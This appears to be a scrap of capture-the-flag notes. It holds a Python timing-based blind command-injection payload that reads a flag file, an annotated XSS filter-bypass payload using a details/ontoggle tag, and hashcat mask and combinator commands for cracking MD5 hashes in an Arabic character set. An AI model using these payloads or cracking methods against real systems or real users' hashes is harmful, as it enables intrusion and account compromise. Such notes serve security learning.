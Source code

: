 cmd = '''
python -c "__import__('time').sleep({} if open('/home/nullcon/flagpart1.txt').read({})[-1:] == '{}' else 0)"
'''.format(SLEEP_TIME, index, letter)

https://www.reddit.com/r/ReverseEngineering/comments/grmxs4/how_to_just_emulate_it_with_qemu_a_guide_to/
    https://www.zerodayinitiative.com/blog/2020/5/27/mindshare-how-to-just-emulate-it-with-qemu

```
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>

-->          Breaks comment context
'            Breaks Attribute Context
"            Breaks attribute context
/>           Closes an open tag
</sCript>    Breaks JS context
<deTailS     A less known tag
open         To eliminate user interaction required for execution
x            Dummy attribute
">"          Mimics the closing of tag
ontoggle     A less known event handler
()           Parentheses around the function
co\u006efirm "confirm" function with Unicoded 'n'
``           Backticks instead of ()
```

hashing
https://github.com/rpm0618/writeups/blob/master/uiuctf2020/login_page/README.md
https://sshell.co/ctf/2020/07/20/uiuctf-2020-writeups/#login_page
```
hashcat.exe 530bd2d24bff2d77276c4117dc1fc719 -a 3 ?d?d?d-?d?d?d-?d?d?d?d
-a 3 - mask attack
    https://hashcat.net/wiki/doku.php?id=mask_attack
hashcat.exe 4106716ae604fba94f1c05318f87e063 -m 2600 -a 3 10?d?d?d?d?d?d?d?d?d?d
-m 2600 - run md5 twice
    https://hashcat.net/wiki/doku.php?id=hashcat

.\hashcat.exe -O .\hashes.txt --hex-charset -a 3 -1 d8d9 -2 8182838485868788898aa0a1a2a3a4a5a6a7a8a9aaabacadaeafb0b1b2b3b4b5b6b7b8b9babbbcbdbebf '?1?2?1?2?1?2?1?2?1?2?1?2'
||
hashcat -m 0 -a 3 --hex-charset -1 d8d9dadb -2 808182838485868788898a8b8c8d8e8f909192939495969798999a9b9c9d9e9fa0a1a2a3a4a5a6a7a8a9aaabacadaeafb0b1b2b3b4b5b6b7b8b9babbbcbdbebf -o output hashes "?1?2?1?2?1?2?1?2?1?2?1?2"
    https://blog.bitcrack.net/2013/09/cracking-hashes-with-other-language.html
    https://utf8-chartable.de/unicode-utf8-table.pl?start=1536
    https://deadpixelsec.com/Hashcat-on-Google-Colab

should have a much smaller estimate
in particular i kept gradually expanding "arabic letter"
assuming the arabic word for cat does not have non-letters in the word
an alternative would be to use a charset file instead of the two-byte approach to arabic (although i'm not sure if charset file actually reads unicode codepoints)
that brings the search space from 256^6 to around 80^6 or something
because not all combinations of ?1?2 are actual arabic

.\hashcat.exe -a 1 -m 0 58970d579d25f7288599fcd709b3ded3 chars3.txt chars3.txt -O

where chars3 was created with .\combinator3.exe chars.txt chars.txt chars.txt and chars.txt was a list of all arabic letters

I don't know if it is correct, but I modified the above to exclude characters with the word WITH in them (like ARABIC LETTER ALEF WITH HAMZA ABOVE).  This generates only 80 candidates and, after combining etc..., that cracks in 2 mins.

```